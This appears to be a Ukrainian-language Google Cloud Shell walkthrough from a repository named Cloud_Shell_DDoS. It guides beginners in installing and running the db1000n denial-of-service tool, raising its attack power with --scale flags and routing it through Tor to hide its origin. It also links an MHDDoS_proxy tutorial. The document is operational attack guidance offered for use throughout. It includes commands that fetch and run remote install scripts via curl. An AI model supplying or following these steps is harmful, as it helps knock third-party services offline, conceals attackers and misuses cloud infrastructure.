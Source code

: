 #   Все буде Україна! 💙💛

## Привіт друзі. Бажаю вам гарного дня!

### **Встановлення та запуск застосунку «Death by 1000 needles» (db1000n) та сервісу Tor**

- для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі
- це означає що все створене під час цього сеансу видалиться разом з віртуальною машиною  **після закінчення даного сеансу**

###  Зверніть увагу   
- якщо з'єднання перервано, бажано  **перезавантажитись** натиснувши кнопку

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

Щоб перейти до роботи з **db1000n** натисніть кнопку **START**

 ## Давайте почнемо
-  щоб встановити «Death by 1000 needles» (db1000n) скопіюйте команду розташовану нижче та натисніть клавішу **ENTER**
```bash
cd ~/; source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/install.sh)
```

-   якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього *зупиніть* процес натиснувши **Ctrl+C** та запустіть наступну команду
```bash
cd ~/; ./db1000n --scale 0.7
```
-   або наступну команду ще з більшою потужністю
```bash
cd ~/; ./db1000n
```
### 
Щоб переглянути навантаження на процесор використаємо команду **htop**
-   для цього додайте ще один термінал натиснувши 
<walkthrough-open-cloud-shell-button open-cloud-shell></walkthrough-open-cloud-shell-button open-cloud-shell>

    та виконайте наступну команду
```bash
htop
```
Щоб дізнатись як встановити сервіс Tor натисніть кнопку **NEXT**

## Запуск db1000n через Tor 
- відкрийте ще один термінал  
<walkthrough-open-cloud-shell-button open-cloud-shell></walkthrough-open-cloud-shell-button open-cloud-shell>
- щоб встановити сервіс Tor виконайте наступну команду
```bash
source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/Tor/Tor_install.sh)
```
- запуск db1000n через Tor
```bash
cd ~/; torsocks ./db1000n  --scale 0.5
```
- якщо деякий час все працює без роз'єднань, можна підвищити потужність. Для цього зупиніть процес натиснувши Ctrl+C та запустіть наступну команду
```bash
cd ~/; torsocks ./db1000n  --scale 0.7
```
- або наступну команду ще з більшою потужністю
```bash
cd ~/; torsocks ./db1000n
```
- запустити сервіс tor
```bash
sudo service tor start
```
- зупинити сервіс tor
```bash
sudo service tor stop
```
- перезавантажити сервіс tor
```bash
sudo service tor restart
```
- переглянути IP адресу тунеля Tor
```bash
torsocks curl 2ip.ua
```
Щоб ознайомитись з додатковою інформацією натисніть кнопку **NEXT**

## Пропоную для ознайомлення:

* натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **MHDDoS_proxy**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

* інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
* офіційна сторінка   [⚡ IT Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Гуртом переможемо! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>
